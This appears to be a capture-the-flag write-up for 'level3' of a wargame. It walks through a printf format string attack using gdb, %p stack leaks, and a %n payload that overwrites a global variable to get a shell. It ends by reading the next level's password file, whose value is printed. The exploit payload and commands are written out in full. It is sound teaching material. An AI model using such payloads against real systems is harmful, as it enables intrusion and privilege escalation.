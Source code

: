 ## Press printf's f for fun and profit (level3)

This level's [binary](source.c) is fairly similar to the last one. It takes user
input and prints it back to stdin:

```shell
# run the binary
./level3
# give it some input
blablabla
# get our input
blablabla
```

However, this time fgets is used to get user input and the buffer length is
valid so the input itself is protected. Although now it's not puts that is used
to print back the input but printf, directly on the input buffer. This means
that we can feed printf format string directly into this binary which allows us
to perform a
[format string attack](https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b).

After analysis of the binary through ghidra and gdb, we can see that there is an
unitialized global variable _m_ (thus living in the .bss part of our program's
memory). Since it is not explicitely given a value by the user, it will be set
to 0. This variable is only used once. It is compared to 0x40 (so if it is equal
to 64). If it is indeed equal to this value the binary will give us a shell. So
the goal here is to find a way to set _m_ to 64 through the printf call.

First let's get _m_'s address:

```shell
# run gdb on the binary
gdb ./level3
# get the address
(gdb) i addr m
Symbol "m" is at 0x804988c in a file compiled without debugging.
```

Now we can try adding some conversions to the format string to pop random values
from a stack and when we reach our buffer:

```shell
echo 'aaaabbbbccccdddd %p %p %p %p' | ./level3
aaaabbbbccccdddd 0x200 0xb7fd1ac0 0xb7ff37d0 0x61616161
```

The p conversion prints the input value as a pointer (here a 32bit pointer) in
hexadecimal. Here the fourth value is "0x61616161" so this means we reached our
buffer starting with "aaaa" (since 0x61 is the asci code for 'a'). This means
that from the fourth conversion we control which parameter we give to printf.
All we have to do here is to start our exploit payload with the bytes
representing the _m_ variable's address and to use the n conversion to write on
it. The n conversion will not print anything, it will simply write the number of
bytes printed by printf to the given address. We just need to make the entire
format print 64 bytes. To do this we just need to adjust the conversions field
width.

Here's the magic payload:

```shell
# feed the exploit payload to the binary
(python -c 'print "\x08\x04\x98\x8c"[::-1] + "%08p%08p%042p%n"'; cat) | ./level3
0x0002000xb7fd1ac00x00000000000000000000000000000000b7ff37d0
Wait what?!
# there we are, we got the shell
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
